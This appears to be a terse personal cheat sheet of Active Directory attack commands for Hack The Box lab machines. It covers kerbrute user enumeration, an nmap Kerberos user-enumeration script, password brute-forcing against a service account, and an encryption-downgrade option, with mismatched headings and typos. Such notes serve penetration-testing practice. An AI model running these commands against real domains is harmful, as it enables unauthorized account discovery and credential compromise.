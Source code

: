 ldapsearh (find user principal name and service name) --> valid users via kerbrute / or nmap (for keberoasting)


**verify vaild users**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum validuser-list
```
**verify valid user via nmap**
```sh
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='joshi.local',userdb=/home/hello/ad/username.txt only-usernames.txt <IP>
```



**finding password hash via service user**
`got service user name via ASREPRoasting`

```sh
 kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt
```


**verify password**
```sh
kerbrute bruteuser --dc 10.10.10.100 -d active.htb password.txt SVC_TGS
```

**downgrade hash**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt --downgrade
```
